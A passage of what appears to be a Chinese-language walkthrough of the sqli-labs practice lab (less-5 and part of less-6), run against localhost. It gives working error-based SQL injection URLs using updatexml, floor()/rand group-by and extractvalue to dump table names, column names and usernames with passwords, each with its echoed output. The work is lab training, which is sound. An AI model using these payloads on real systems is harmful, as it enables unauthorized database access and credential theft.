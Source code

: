回显：XPATH syntax error: '~id,username,password' 继续爆数据

```mysql
http://localhost/sqli-labs-master/less-5/?id=100' and 1=updatexml(1,concat(0x7e,(select substring(group_concat(username,password),1,30) from users)),3) -- - 
```

**注意：**使用substring()函数来控制输出的字符总数不超过32个字符 因为基于updatexml的报错注入最多只允许单次输出32字符的数据 
**substring()的使用：**substring(1,2,3)   ->   substring(要查询的数据,开始查询的第n个字符,向后查询n个字符)

------

基于GET型的floor()报错注入：

```mysql
http://localhost/sqli-labs-master/less-5/?id=1' union select 1,count(*),concat_ws('-',(select group_concat(table_name) from information_schema.tables where table_schema=database()),floor(rand(0)*2)) as x from information_schema.tables group by x -- -
```

回显：  Duplicate entry 'emails,referers,uagents,users-1' for key ''    继续修改代码进一步爆列

```mysql
http://localhost/sqli-labs-master/less-5/?id=1' union select 1,count(*),concat_ws('-',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),floor(rand(0)*2)) as x from information_schema.tables group by x -- -
```

回显：Duplicate entry 'id,username,password-1' for key ''   爆数据

```mysql
http://localhost/sqli-labs-master/less-5/?id=1' union select 1,count(*),concat_ws('-',(select concat(username,':',password) from users limit 1,1),floor(rand(0)*2)) as x from information_schema.tables group by x -- -
```

得到username 和 password

**注意:** 这边要把group_concat()改成concat() , 然后后面链接limit()函数 控制输出的行数 因为floor()报错注入最多只支持64字符的输出 是extractvalue和updatexml的两倍

------

## less-6

基于GET型的字符型报错注入 闭合方式 " 

```mysql
利用extractvalue的报错注入
http://localhost/sqli-labs-master/less-6/?id=1" and 1=extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) -- -
```

回显：XPATH syntax error: '~emails,referers,uagents,users'

```mysql
爆列名
http://localhost/sqli-labs-master/less-6/?id=1" and 1=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) -- -
```
